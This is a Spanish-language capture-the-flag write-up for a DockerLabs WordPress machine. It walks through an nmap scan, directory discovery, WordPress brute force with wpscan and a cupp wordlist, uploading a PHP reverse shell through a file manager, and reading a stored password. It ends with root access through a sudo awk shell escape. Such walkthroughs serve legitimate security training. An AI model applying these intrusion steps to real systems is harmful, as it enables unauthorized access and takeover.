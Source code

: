 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/8306a2d4-ebce-443e-a0cb-d8e796bc49b0)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **22/tcp(SSH):** OpenSSH 9.6p1 (Ubuntu)
2. **80/tcp(HTTP):** Apache httpd 2.4.58

### Puerto 80
Al identificar que el puerto 8080 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador con el puerto y es una pagina de una universidad de ciberseguridad.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/5b26eb15-db47-4c5c-bd2d-2adacec8d262)

# Fase 2- Exploración

#### FeroxBuster
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/e42cccbd-681d-41de-b250-a71f74d9d9a9)
Con feroxbuster encontramos un montón de cosas, pero encontró algunas interesantes...

Encontró una directorio /wordpress
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/70c540d1-86f0-4242-9cf8-1de1bdca06a6)

Y también encontró un /wordpress/wp-admin pero lo tenemos que agregar al /etc/hosts.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/bb91ac9d-d761-4db6-8e77-e3a1b0d0eaa9)

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/a9130d69-fad8-4e17-8c18-304097747739)
Despues de agregarlo ya funciona.

#### Luis
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/7ad991c1-2f99-4a95-bd39-85002f24452d)

Si vemos el apartado de profesores, el profesor `Luis ;)` tiene arriba un texto que dice (admin wordpress).


# Fase 3- Exploración

#### wordpress
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/b713ab72-c8e8-46be-b763-d196288eb6e3)

Al poner el nombre de usuario `Luis` nos dice que no esta registrado en wordpress.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/4f307386-d3f7-46a8-b682-dca27c009c4d)

Probamos la matricula del profesor `Luis` y tampoco esta registrado.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/aa730016-31ea-48dc-8ce9-7a4a973cf894)

Si introducimos `luisillo` del correo electrónico funciona.

#### Explotar Wordpress

Utilizamos el comando:
```python
wpscan --url http://escolares.dl/wordpress/ -U luisillo --passwords /usr/share/wordlists/rockyou.txt
```
Para realizar fuerza bruta al wordpress, con el usuario `luisillo` y el `rockyou` como diccionario.

```python
[i] No Valid Passwords Found.
```
No encontró ninguna contraseña. Tocara realizar un diccionario propio.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/8a1285f2-1fc9-461b-ae30-994ff50ddf74)
Utilizamos la herramienta `cupp` para crear un diccionario personalizado.

```python
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - luisillo / Luis1981                                                                                                                                                                             
Trying luisillo / Luis1098181
```
Nos encontró la contraseña!

#### Wp-File-Manager
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/a1969b24-4ac3-40a0-a461-caa0b7082468)

Dentro de wordpress encontramos un File Manager.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/5e88d99a-24ff-4fab-8154-ccf388828ec8)

El tema `twentytwentyfour` nos permite ver y ejecutar archivos.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/9f8aa99b-9133-4a0f-ba1d-a83e057b6c8e)

Creamos un archivo .txt de texto plano.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/44864bfb-a261-4e13-8c9b-1cdfae13405e)

Pegamos el codigo de `https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php` y le cambiamos la ip y el puerto.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/e920fc5b-714a-4887-82d3-ebc77ee083d0)

Le damos a `SAVE AS` y lo guardamos con cualquier nombre y extensión `.php`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/0ce9e06b-d5a2-4509-999b-9d8865ba4576)

Y ahi lo tenemos.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/59748050-eefb-4b82-9bbf-7a7db5fea34d)
Nos ponemos en modo escucha y ejecutamos el archivo y nos llega la reverse shell.

# Fase 4- Privilegios

#### www-data
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/c94f7177-1c4f-49e6-9b87-1692b6963ab6)

Despues de realizar el tratamiento de la TTY y no encontrar nada en los binarios reviso el passwd y veo que existe el usuario `luisillo`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/44cb1e15-f263-4924-8830-01d706a54a11)

En el directorio `/home` existe un archivo llamado `secret.txt`
```python
www-data@16f9cdd90725:/home$ ls  
luisillo  secret.txt  ubuntu
www-data@16f9cdd90725:/home$ cat secret.txt 
luisillopasswordsecret
www-data@16f9cdd90725:/home$ su luisillo
Password: 
luisillo@16f9cdd90725:/home$ 
```
Y somos el usuario `luisillo`!.

#### Luisillo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/4ac9b5b1-4a90-4716-b96e-0797f48f6651)

Como el usuario `luisillo` podemos ejecutar el binario `awk` como usuario root.
```
luisillo@16f9cdd90725:/home$ sudo awk 'BEGIN {system("/bin/sh")}'
# whoami
root
# 
```
Buscamos como se eleva privilegios en gtfobins con ese binario y escalamos!.
